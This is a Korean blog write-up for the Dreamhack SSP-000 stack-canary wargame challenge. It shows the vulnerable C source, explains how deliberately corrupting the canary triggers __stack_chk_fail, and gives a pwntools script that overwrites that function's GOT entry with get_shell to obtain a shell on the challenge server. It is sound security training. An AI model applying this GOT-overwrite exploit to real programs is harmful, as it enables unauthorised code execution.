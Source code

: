 ```yaml
---
layout: post
title: Pwnable | [Dreamhack] SSP-000
subtitle: Dreamhack SSP-000 문제 풀이
categories: Pwnable
tags: [Pwnable, dreakhack, Canary, Pentest]
---
```


**본 문제는 Dreamhack을 통해서 풀어 보실 수 있습니다.**

**해답을 이해하며 생각을 해보면서 풀이 해보시길 바랍니다.**

## 문제 내용

문제는 <a href = "https://dreamhack.io/wargame/challenges/">dreamhack.io</a>를 들어가시면 확인할 수 있습니다.

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/192131011-8fd417f2-0eb6-4ea6-aeae-fa628e45c207.jpg">
</p>

해당 문제는 Dreamhack Pwnable 교육과정 중 Stack Canary 실습 문제이다. 따라서 문제에서 요구하는 바는 SSP 방어 기법을 위해하여 flag를 획득하는 것이다.

## 문제 풀이

```C
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}

void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}

void get_shell() {
    system("/bin/sh");
}

int main(int argc, char *argv[]) {
    long addr;
    long value;
    char buf[0x40] = {};

    initialize();

    read(0, buf, 0x80);

    printf("Addr : ");
    scanf("%ld", &addr);
    printf("Value : ");
    scanf("%ld", &value);

    *(long *)addr = value;

    return 0;
}
```

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/192131229-8ffe19bd-f21c-4b96-be1e-d172d74699a3.jpg" width = 350>
</p>

* NX bit 활성화로 인해서 BUF에 쉘 코드를 직접 대입하진 못할 것이고, Canary가 존재하므로 Canary leak을 통해 RET를 `get_shell`로 변경할 수 있을 것으로 예상했다.

* 하지만, 문제를 보면 Canary의 값을 알 방법은 없다.

```C
*(long *)addr = value;
```

이 부분을 통해 addr의 메모리 값을 변경할 수 있을 것으로 예상된다.

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/192131377-bda6a500-8902-4258-a11f-77165fb74904.jpg" width = 350>
</p>

`pwndbg`를 통해 disassemble 했을 때 스택 메모리를 표현한 것이다.

```C
read(0, buf, 0x80);
```

해당 함수를 통해 Canary값을 변조하여 **call   0x4006d0 <__stack_chk_fail@plt>** 호출이 가능하게 된다.

**__stack_chk_fail@plt**를 통해 GOT를 참조할 것이다. 따라서, 우리가 입력할 수 있는 addr를 **__stack_chk_fail@got**로 변경하고, 해당 내용을 `get_shell`로 변경하면 된다.(해당 루틴이 정확하게 어떻게 이루어지는지 더 공부해야할 것으로 보인다.)

* **addr** : **__stack_chk_fail@got** 주소
* **__stack_chk_fail@got** : `get_shell`의 주소

현재로서는 이렇게 이해하고 있습니다.

```python
from pwn import *

#p = process("./ssp_000")
p = remote("host3.dreamhack.games", 12630)
elf = ELF("./ssp_000")

get_shell = elf.symbols['get_shell']
p.sendline(b"A"*80) #nop 80bytes

p.recvuntil("r : ") #Addr :

p.sendline(str(elf.got['__stack_chk_fail']))

p.recvuntil("e : ") #value :

p.sendline(str(get_shell))

p.interactive()
```